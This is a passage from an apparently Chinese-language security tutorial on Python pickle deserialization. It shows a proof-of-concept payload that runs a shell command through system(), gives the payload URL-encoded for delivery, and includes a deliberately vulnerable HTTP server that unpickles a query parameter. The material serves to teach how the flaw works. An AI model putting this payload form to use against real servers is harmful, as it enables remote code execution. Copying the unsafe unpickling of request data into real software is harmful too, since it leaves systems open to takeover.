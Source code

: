 ```python

  print poc
  print urllib.quote(poc)
  fp = open("poc.pickle","w")
  fp.write(poc)
```

  

  输出内容，也就是Payload (poc)：

      cnt
      system
      p1
      (S’echo test >poc.txt’
      p2
      tRp3
      .

  url编码后的payload，用于URL中传递给web服务器：

  `cnt%0Asystem%0Ap1%0A%28S%27echo%20test%20%3Epoc.txt%27%0Ap2%0AtRp3%0A`

  我们将如上生成的pyload放到poc.pickle文件中，然后执行验证代码pickle_verify.py，成功执行了”echo test >poc.txt” (在当前目录生成一个poc.txt，其中的内容是test)。

  现在问题来了，如何在实际的web环境中使用这些payload呢？

  我们先实现一个简单的httpserver（pickle_verify_httpserver.py）：

```python
  # !/usr/bin/env python
  # -*- coding:utf-8 -*-
  __author__ = 'bit4'
  __github__ = 'https://github.com/bit4woo'
  __filename__ = 'pickle_verify_httpserver.py'

  import BaseHTTPServer
  import urllib
  import cPickle

  class ServerHandler(BaseHTTPServer.BaseHTTPRequestHandler):
      def do_GET(self):
          if "?payload" in self.path:
              query= urllib.splitquery(self.path)
              action = query[1].split('=')[1]
              print action
              action = urllib.unquote(action)
              print action
              try:
                  x = cPickle.loads(action) #string argv
                  content = "command executed"
              except Exception,e:
                  print e
                  content = e
          else:
              content = "hello World"

          self.send_response(200)
          self.send_header("Content-type","text/html")
          self.end_headers()
          self.wfile.write("<html>")
          self.wfile.write(" %s " % content)
          self.wfile.write("</html>")

  if __name__ == '__main__':
      srvr = BaseHTTPServer.HTTPServer(('',8000), ServerHandler)
      print 'started httpserver...'
```